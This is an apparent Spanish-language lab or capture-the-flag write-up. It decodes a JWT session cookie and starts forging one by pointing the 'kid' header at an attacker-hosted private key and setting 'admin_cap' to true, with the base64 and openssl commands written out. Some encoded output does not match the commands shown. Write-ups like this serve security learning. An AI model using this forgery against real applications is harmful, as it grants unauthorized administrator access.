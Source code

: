 Tras analizar la cookie, compruebo que se trata de un JWT (JSON Web Token), formado principalmente por 3 campos, que se diferencian al estar separados por puntos:

1. Header. Está codificado en base64 y al descodificarlo se puede observar una estructura JSON.
2. Payload. Está codificado en base64 y al descodificarlo se puede observar una estructura JSON.
3. Signature. Se utiliza para verificar si el token ha sido firmado y si ha sido alterado de alguna forma. Se puede crear de varias formas, en función del algoritmo de encriptación que se defina.

Por tanto, procedo a decodificar los campos header y payload, para obtener los valores en texto claro.

```json
# echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9" | base64 -d | jq
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key"
}
# echo "eyJ1c2VybmFtZSI6InRlc3QyIiwiZW1haWwiOiJ0ZXN0MkB0ZXN0LmNvbSIsImFkbWluX2NhcCI6MH0" | base64 -d | jq
{
  "username": "test2",
  "email": "test2@test.com",
  "admin_cap": false
}
```

En este caso, en el header se observa que el token utiliza el algoritmo `RS256`, por lo que el campo Signature se crearía de la siguiente forma:

1. El hash SHA-256 de la concatenación de: Header en Base64 + "." + Payload en Base 64.
2. La encriptación del hash SHA-256 mediante RSA y una clave privada.
3. El codificado en Base64 del resultado obtenido en el paso anterior.


## Acceso a la máquina

Con los datos que aparecen en las estructuras JSON, se me ocurre una forma de falsear la cookie, obteniendo permisos de administrador en la plataforma. Se tendrían que modificar los valores de los campos `kid` del header, apuntando a una clave privada que generare en mi máquina, y `admin_cap` del payload, cambiando el "false" por un "true", lo que seguramente nos proporcionaría capacidades de administración en la plataforma.

```
# echo "{\"typ\":\"JWT\",\"alg\":\"RS256\",\"kid\":\"http://10.10.14.61:7070/privKey.key\"}" | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4yMjE6NzA3
MC9wcml2S2V5LmtleSJ9Cg==

# echo "{\"username\":\"test2\",\"email\":\"test2@test.com\",\"admin_cap\":true}" | base64
eyJ1c2VybmFtZSI6InRlc3QyIiwiZW1haWwiOiJ0ZXN0MkB0ZXN0LmNvbSIsImFkbWluX2NhcCI6
dHJ1ZX0K

# openssl genrsa -out privKey.key
Generating RSA private key, 2048 bit long modulus (2 primes)
..........+++++
...................................+++++
e is 65537 (0x010001)
```
